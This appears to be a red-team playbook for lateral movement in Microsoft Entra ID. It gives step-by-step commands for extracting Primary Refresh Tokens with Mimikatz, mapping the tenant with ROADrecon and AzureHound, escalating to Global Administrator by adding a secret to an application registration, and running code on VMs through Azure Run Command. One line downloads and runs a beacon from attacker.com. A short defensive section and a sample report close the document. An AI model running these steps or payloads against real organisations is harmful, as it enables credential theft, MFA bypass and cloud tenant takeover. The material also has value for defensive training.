

# Microsoft Entra ID (Azure AD) Lateral Movement

## When to Use
- Upon compromising a user's corporate workstation that is Entra ID joined (or Hybrid joined) and extracting the Primary Refresh Token (PRT).
- When obtaining a set of Azure credentials (username/password/MFA token) via spear-phishing or credential stuffing.
- During Red Team engagements utilizing BloodHound (AzureHound) to map complex, non-obvious permission chains across cloud applications and subscriptions.

## Workflow

### Phase 1: Authentication & Token Extraction

```powershell
# Concept: Entra ID relies on OAuth/OIDC tokens instead of traditional Kerberos tickets or NTLM hashes.
# The most powerful token on a corporate device is the Primary Refresh Token (PRT), which satisfies MFA requirements.

# 1. Device Compromise (Extracting the PRT)
# Execute Mimikatz or appropriate tools on the compromised Windows 10/11 endpoint.
privilege::debug
token::elevate
sekurlsa::dpapi
# Extract the PRT from the CloudAP plugin cache...

# 2. Re-authentication (ROADtools)
# Import the stolen PRT into ROADtools or use xpn's PRT-cookie generator.
# Bypasses MFA and conditional access targeting the specific device.
```

### Phase 2: Reconnaissance & Graph Mapping

```bash
# Concept: You cannot move if you don't know the structure. We use the Azure REST API 
# (via ROADtools) or AzureHound to dump the entire tenant's structure into a Graph Database.

# 1. Dumping the Directory with ROADrecon
roadrecon auth -u hacked.user@corp.com -p "Password123!"
roadrecon gather
roadrecon plugin gui # Opens a local web interface to browse all Users, Groups, Devices, and Service Principals.

# 2. Mapping Attack Paths with BloodHound (AzureHound)
azurehound -u "hacked.user@corp.com" -p "Password123!" --tenant "corp.onmicrosoft.com" list -o azure_data.json
# Upload the JSON to the BloodHound GUI.

# 3. Analyze the Graph:
# Locate paths like: `HackedUser` -> `[MemberOf]` -> `IT_Helpdesk Group` -> `[Owns]` -> `Service Principal A` -> `[Has Role]` -> `Contributor on Subscription X`...
```

### Phase 3: Exploiting Service Principals (App Registrations)

```bash
# Concept: Service Principals (Enterprise Applications) are the "service accounts" of Azure.
# If a normal user has the privilege to add credentials to a highly privileged Service Principal, 
# they can log in AS that application and escalate.

# Scenario: You discovered `HackedUser` is the "Owner" of the `Backup-App` Application Registration.
# BloodHound shows `Backup-App` possesses the "Global Administrator" Directory Role.

# 1. Add a secret to the highly privileged Application using Azure CLI or ROADtools:
az ad app credential reset --id <Backup-App-Object-ID> --append
# Output returns a new Application Password/Secret.

# 2. Login as the Application (Service Principal):
az login --service-principal -u <Backup-App-Client-ID> -p <The-New-Secret> --tenant <Tenant-ID>

# You are now operating as the Application. Because the App is a Global Admin, you control the Azure Tenant.
```

### Phase 4: Azure Resource Manager (ARM) Lateral Movement (Run Command)

```bash
# Concept: If you hold 'Contributor' rights over an Azure Subscription or an Azure Virtual Machine (VM), 
# you can execute SYSTEM level commands inside the VM from the internet portal, bypassing RDP/SSH firewalls.

# 1. Compromised user has Contributor role on `Web-Server-01`.
# 2. Invoke the Azure "Run Command" feature.
az vm run-command invoke \
    --command-id RunPowerShellScript \
    --name Web-Server-01 \
    --resource-group Production-Web \
    --scripts "Invoke-WebRequest -Uri http://attacker.com/beacon.exe -OutFile C:\windows\temp\b.exe; Start-Process C:\windows\temp\b.exe"

# 3. Code Execution Achieved. You have laterally moved from the Cloud Control Plane down into the underlying IaaS operating system.
# Note: If `Web-Server-01` has a "Managed Identity" attached, you can extract its cloud token via the IMDS (`169.254.169.254`) from your beacon, escalating back into the Cloud via a new identity!
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Tiered Administration Model**: Strictly segregate Global Administrators and privileged Cloud roles. These accounts must never be used for daily email/web browsing, and must only log in from dedicated, highly-secure Privileged Access Workstations (PAWs) to prevent PRT theft.
- **Continuous Access Evaluation (CAE)**: Enable Microsoft CAE. If anomalous activity is detected (e.g., token used from a brand new IP address, user password reset), CAE immediately revokes all active access tokens, forcing immediate re-authentication.
- **Monitor High-Risk Operations**: Actively monitor Microsoft Sentinel/Log Analytics for the addition of new secrets or certificates to Application Registrations/Service Principals (`Add service principal credentials`), especially when performed by non-administrator identities.
- **Restrict Run Command**: Remove `Microsoft.Compute/virtualMachines/runCommand/action` from standard Contributor roles using Custom RBAC Definitions, limiting it strictly to dedicated Infrastructure deployment pipelines.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Entra ID | Microsoft's cloud-based identity and access management service (formerly known as Azure Active Directory) |
| PRT | Primary Refresh Token; a central artifact of Entra ID authentication on Windows, macOS, iOS, Android, and Linux. Issued to registered devices, it satisfies MFA and serves as an SSO token for cloud applications |
| Service Principal | An identity created for use with applications, hosted services, and automated tools to access Azure resources securely (the cloud equivalent of a Domain Service Account) |
| AzureHound | The BloodHound data collector for Azure, querying the Microsoft Graph API to map relationships and permissions |

## Output Format
```
Red Team Objective Report: Lateral Movement to Azure Global Administrator
=========================================================================
Tactic: Privilege Escalation & Lateral Movement (T1098, T1078)
Severity: Critical (CVSS 10.0)
Target: Microsoft Entra ID Production Tenant

Description:
A successful phishing campaign yielded the standard user credentials for `jdoe@company.com`. While `jdoe` possessed no direct administrative cloud roles, an AzureHound analysis of the Entra ID graph revealed a complex lateral movement path.

The compromised identity was designated as an "Owner" of the legacy `Finance-Reporting-API` Application Registration. This Application Registration had previously been granted the `Privileged Role Administrator` highly-privileged Azure AD directory role.

By utilizing ROADtools to add a new attacker-controlled client secret to the application, the Red Team authenticated as the Service Principal. Leveraging the `Privileged Role Administrator` capabilities, the Red Team assigned themselves Global Administrator permissions across the entire Tenant footprint.

Reproduction Steps:
1. Authenticate with compromised `jdoe` credentials.
2. Interrogate the Graph API to locate owned Applications:
   `roadrecon gather`
3. Generate and append a new Client Secret to the `Finance-Reporting-API` App ID.
4. Authenticate via Azure CLI using the Service Principal ID and new Secret.
5. Execute internal directory update to assign Global Administrator Role to the attacker account.

Impact:
Total ubiquitous control over the Microsoft 365 and Azure Infrastructure environments. Complete capability to alter Exchange mailboxes, terminate Virtual Machines, or extract enterprise databases.
```

## References
- Dirjan, Dirk-jan: [ROADtools - The Azure AD exploration framework](https://github.com/dirkjanm/ROADtools)
- BloodHound Enterprise: [AzureHound](https://bloodhoundenterprise.io/)
- Microsoft: [Securing Azure Active Directory](https://learn.microsoft.com/en-us/azure/active-directory/fundamentals/concept-fundamentals-security-guidance)
